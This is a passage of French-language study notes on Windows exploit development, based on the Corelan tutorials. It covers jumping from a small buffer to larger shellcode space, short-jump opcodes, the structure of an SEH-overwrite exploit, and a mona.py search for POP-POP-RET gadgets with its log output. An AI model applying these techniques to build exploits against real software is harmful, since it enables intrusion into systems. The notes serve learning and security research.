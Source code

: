 ### Cas des petits buffers

Dans le cas où on a un buffer trop petit pour le shellcode, mais que celui peut être stocké ailleurs (ex: Au niveau d'un autre registre), alors il est possible d'utiliser le petit buffer pour écrire un shellcode pour jumper sur notre buffer plus étendu. Dans l'exemple de Corelan on vise ESP+150 et on s'interdit d'utiliser les caractères entre ESP+50 et ESP+150. Le payload suivant est efficient:

-   mov eax, esp
-   add eax, 0x32 (ajoute 50 à EAX)
-   add eax, 0x32 (ajoute 50 à EAX)
-   add eax, 0x32 (ajoute 50 à EAX)
-   jmp eax

Dans l'exemple ils font directement add esp, 0x32 puis jmp esp mais ça fout vraiment le bordel dans la pile, donc il vaut peut être mieux éviter.

### Short Jumps

Dans certains cas on peut avoir besoin de faire un simple **short jump** de quelques bytes. Dans ce cas le short jump a la forme suivante:

-   jmp 0x10 =&gt; 0xeb 0x10

Partie 3: SEH Based exploits
----------------------------

Basé sur la troisième partie du cours de [Corelan](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/) sur le développement d'exploits.

La structure global d'un exploit basé sur SEH est la suivante:

``` text
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

On utilise un pattern pour identifier l'offset nécessaire pour écraser **Address of SEH Handler**. Au moment du crash, immunity bloque l'execution et nous demande si on souhaite lancer l'exception (avec SHIFT+F7/F8/F9). Au moment du blocage on peut voir l'état des adresses liées à SEH en faisant **ALT+S**.

Une fois cela fait il faut écraser cette adresse avec l'adresse d'une instruction de la forme POP, POP, RET. Mona peut servir à faire cela:

``` text
!mona seh -m strmdll.dll
```

Le résultat est le suivant:

``` text
0BADF00D   [+] This mona.py action took 0:00:00
0BADF00D   [+] Command used:
0BADF00D   !mona seh -m strmdll.dll

           ---------- Mona command started on 2016-04-24 07:04:16 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules strmdll.dll
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module strmdll.dll
704D0000   Modules C:\Windows\system32\TAPI32.dll
0BADF00D   [+] Setting pointer access level criteria to 'R', to increase search results
0BADF00D       New pointer access level : R
0BADF00D   [+] Preparing output file 'seh.txt'
0BADF00D       - (Re)setting logfile seh.txt
```